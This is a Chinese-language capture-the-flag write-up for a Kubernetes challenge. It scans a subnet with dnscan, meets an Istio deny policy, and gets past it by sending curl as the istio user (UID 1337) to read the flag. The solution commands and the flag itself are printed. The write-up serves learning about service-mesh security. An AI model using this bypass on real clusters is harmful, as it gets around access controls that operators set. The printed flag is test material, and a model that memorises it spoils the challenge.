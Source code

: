 # Bypassing Boundaries

:::note

The Beauty and The Ist

Apparently, new service mesh technologies hold unique appeal for ultra-elite users (root users). Don't abuse this power; use it responsibly and with caution.

显然，新的服务网格技术对超高级用户（root 用户）具有独特的吸引力。不要滥用这种能力；请负责任且谨慎地使用它。

:::

既然题目说了，对超高级用户有吸引力，那么先查看用户状态

```plaintext title="/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
_rpc:x:102:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:103:65534::/var/lib/nfs:/usr/sbin/nologin
istio:x:1337:1337::/home/istio:/bin/sh
player:x:1001:1001::/home/player:/bin/sh
```

同时，题目给了一份策略

```yaml
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: istio-get-flag
  namespace: k8s-lan-party
spec:
  action: DENY
  selector:
    matchLabels:
      app: "{flag-pod-name}"
  rules:
  - from:
    - source:
        namespaces: ["k8s-lan-party"]
    to:
    - operation:
        methods: ["POST", "GET"]
```

可以看到，被限制了通过 GET 和 POST 来访问服务

先探测一下服务地址

```bash
root@wiz-k8s-lan-party:~# dnscan -subnet 10.100.0.0/16
57435 / 65536 [---------------------------------------------------------------------------------------------------------------------------------------->___________________] 87.64% 946 p/s
10.100.224.159 istio-protected-pod-service.k8s-lan-party.svc.cluster.local.
65398 / 65536 [----------------------------------------------------------------------------------------------------------------------------------------------------------->] 99.79% 949 p/s
10.100.224.159 -> istio-protected-pod-service.k8s-lan-party.svc.cluster.local.
65536 / 65536 [-----------------------------------------------------------------------------------------------------------------------------------------------------------] 100.00% 953 p/s
```

尝试进行访问

```bash
root@wiz-k8s-lan-party:~# curl istio-protected-pod-service.k8s-lan-party.svc.cluster.local
RBAC: access denied
```

针对 `istio` 设立的限制，可以使用 UID 为 `1337` 的用户来绕过限制，即可以使用 `istio` 这个用户来发起请求

```bash
root@wiz-k8s-lan-party:~# su - istio -c 'curl istio-protected-pod-service.k8s-lan-party.svc.cluster.local'
su: warning: cannot change directory to /home/istio: No such file or directory
wiz_k8s_lan_party{only-leet-hex0rs-can-play-both-k8s-and-linux}
```

即可得到答案

```flag
wiz_k8s_lan_party{only-leet-hex0rs-can-play-both-k8s-and-linux}
```
